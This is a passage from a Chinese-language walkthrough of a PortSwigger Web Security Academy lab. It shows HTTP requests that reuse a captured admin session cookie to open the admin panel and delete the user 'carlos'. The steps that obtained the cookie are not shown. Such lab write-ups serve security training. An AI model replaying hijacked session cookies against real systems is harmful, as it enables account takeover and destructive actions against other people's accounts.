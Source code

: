 Step 4：随后我们直接访问复制会话cookie并使用它发送以下请求

```c
GET /admin HTTP/2
Host: 0a7200bf0465414380e68aa700240081.web-security-academy.net
Cookie: session=hTi7sNuudeR99YHcsm3l3xa3zKDAWqEB
```

![img](assets/1706773318-f6ca2421993e0380c23ab21c4a5ab788.png)

Step 5：从上面我们可以看到成功利用admin的会话进入到控制面板中去，随后我们继续使用获取到的会话进行用户的删除操作

```c
GET /admin/delete?username=carlos HTTP/2
Host: 0a7200bf0465414380e68aa700240081.web-security-academy.net
Cookie: session=hTi7sNuudeR99YHcsm3l3xa3zKDAWqEB
```

![img](assets/1706773318-f71b9b1a406bb1be39a63ad661764941.png)

Step 6：随后完成解题：

![img](assets/1706773318-0cbbc0eb9fbe15ecb4e287a3bee7f58c.png)
